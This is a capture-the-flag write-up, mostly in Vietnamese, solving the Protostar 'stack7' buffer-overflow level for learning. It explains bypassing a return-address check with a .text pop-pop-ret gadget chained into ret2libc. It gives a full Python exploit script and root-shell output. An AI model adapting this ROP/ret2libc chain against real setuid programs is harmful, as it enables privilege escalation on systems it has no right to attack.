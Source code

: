 # STACK SEVEN

## About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SEVEN` giới thiệu về cách chúng ta sử dụng segment .text khi mà địa chỉ bị giới hạn trả về không chỉ còn là stack. Chúng ta sẽ tìm hiểu về các ROPgadget và kỹ thuật khai thác ROP (Return-oriented programming).

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```

if((ret & 0xb0000000) == 0xb0000000)

```
Giả sử ret = 0xb7777777
	     ret & 0xb0000000

	     0xb7777777 
     	   & 0xb0000000
	     __________
             0xb0000000 <-- luôn bằng 0xb0000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xb0000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xb0000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) start
Temporary breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
Starting program: /opt/protostar/bin/stack7

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 2088
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xb0000000` đến `0xbfffffff` là vùng bị giới hạn - gần như tất cả các phân vùng của chương trình trừ những gì trong đoạn từ `0x8048000` đến `0x804a000` -> không thể sử dụng trực tiếp ret2libc như `STACK SIX` mà ta sẽ trả về một địa chỉ nào đó trên phân vùng không bị giới hạn rồi mới quay lại ret2libc.

Ở đây mình chọn `.text` với địa chỉ của `gadget` _ `pop pop ret`.

system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Nó chạy cùng 1 thư viện với `STACK SIX` @@.

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Gadget `pop pop ret`.

`root@protostar:/opt/protostar/bin# objdump -d stack7 | grep -a2 pop`

Có 3 vị trí thỏa mãn 0x80485f7, 0x80485c7, 0x8048492. Mình chọn cái này:

```
 80485c0:       72 de                   jb     80485a0 <__libc_csu_init+0x30>
 80485c2:       83 c4 1c                add    $0x1c,%esp
 80485c5:       5b                      pop    %ebx
 80485c6:       5e                      pop    %esi
 80485c7:       5f                      pop    %edi     * Start gadget for me.
 80485c8:       5d                      pop    %ebp
 80485c9:       c3                      ret
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_gadget + "AAAA" + "BBBB" + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
ppr = struct.pack("I", 0x080485c7)
pop1 = "AAAA"
pop2 = "BBBB"
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + ppr + pop1 + pop2 + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin# (python exp.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAǅAAAAAAAAAAAAǅAAAABBBB`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```


## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>

<https://en.wikipedia.org/wiki/Return-oriented_programming>


